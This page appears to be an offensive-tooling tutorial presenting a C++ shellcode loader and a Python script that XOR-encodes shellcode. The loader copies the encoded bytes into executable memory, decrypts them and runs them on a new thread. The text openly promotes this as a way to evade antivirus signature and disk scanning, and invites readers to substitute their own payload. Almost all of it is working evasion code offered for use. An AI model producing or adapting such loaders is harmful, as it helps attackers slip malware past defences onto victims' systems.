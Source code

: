 ### Tool 1 Shellcode loader
## ** Step 1: XOR-Encoded Shellcode Loader**
This version:
 **Encrypts shellcode using XOR** to avoid static detection.  
 **Decrypts shellcode in memory at runtime** before execution.  
 **Uses function obfuscation to evade basic AV analysis.**  
---
### ** Refined C++ Code: Shellcode Loader with XOR Encryption**
```cpp
#include <windows.h>
#include <iostream>
// XOR Key (Must match encryption key used to encode shellcode)
#define XOR_KEY 0x55 
// XOR-decrypted shellcode (calc.exe payload)
unsigned char encryptedShellcode[] = {
    0xa9, 0x1d, 0xc4, 0xb1, 0xa5, 0x90, 0xf5, 0xb4, 0x6d, 0x4d, 
    0x14, 0x04, 0x41, 0xc0, 0x14, 0x05, 0x6d, 0x4c, 0x31, 0x82,
    // (truncated for brevity)
};
void xorDecrypt(unsigned char* shellcode, size_t length) {
    for (size_t i = 0; i < length; i++) {
        shellcode[i] ^= XOR_KEY;
    }
}
int main() {
    size_t shellcodeSize = sizeof(encryptedShellcode);
    
    // Allocate memory for decrypted shellcode
    void* exec_mem = VirtualAlloc(0, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cout << "[!] Memory allocation failed!\n";
        return -1;
    }
    // Copy encrypted shellcode into allocated memory
    memcpy(exec_mem, encryptedShellcode, shellcodeSize);
    // Decrypt shellcode in memory
    xorDecrypt((unsigned char*)exec_mem, shellcodeSize);
    // Execute shellcode
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, NULL);
    if (!hThread) {
        std::cout << "[!] Failed to create thread\n";
        return -1;
    }
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```
---
## ** Step 2: Generating XOR-Encoded Shellcode**
To **encrypt your own payload**, use the following Python script:
```python
shellcode = b"\xfc\x48\x83\xe4\xf0\xe8\xc0..."  # Your raw shellcode here
xor_key = 0x55  # XOR key (must match C++ loader)
encoded_shellcode = bytearray()
for byte in shellcode:
    encoded_shellcode.append(byte ^ xor_key)
print("unsigned char encryptedShellcode[] = {")
print(", ".join(f"0x{byte:02x}" for byte in encoded_shellcode))
print("};")
```
Run this script, and it will generate **XOR-encoded shellcode** to replace `encryptedShellcode[]` in the C++ loader.
---
## ** How This Improves Evasion**
 **Obfuscates shellcode in memory** (static analysis evasion).  
 **Decrypts at runtime** (avoids signature-based AV detection).  
 **Memory-only execution** (prevents detection by disk scanners).  
